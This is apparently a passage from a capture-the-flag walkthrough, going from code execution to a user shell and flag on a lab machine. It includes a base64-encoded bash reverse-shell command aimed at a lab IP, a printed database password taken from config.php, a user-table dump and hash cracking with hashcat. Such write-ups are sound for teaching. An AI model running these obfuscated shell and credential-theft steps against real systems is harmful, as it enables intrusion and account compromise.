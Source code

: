 `echo "YmFzaCAtYyAnZXhlYyBiYXNoIC1pICY+L2Rldi90Y3AvMTAuMTAuMTQuMTk1LzkwOTAgPCYxJwo=" | base64 -d | bash`

and encode in url



<img src="./img/rev.png"  width="650"/>

and got it.

Now i have a shell as `www-data`

<img src="./img/user.png"  width="650"/>

access to db with credentials retrieved before (root:mySQL_p@ssw0rd!:) credentials from config.php) and dumped the users.

<img src="./img/dump.png"  width="650"/>

Cracked the hash for the user `m4lwhere` with hashcat

<img src="./img/hashcat.png"  width="650"/>

login as `m4lwhere` and got user flag.

<img src="./img/userflag.png"  width="650"/>
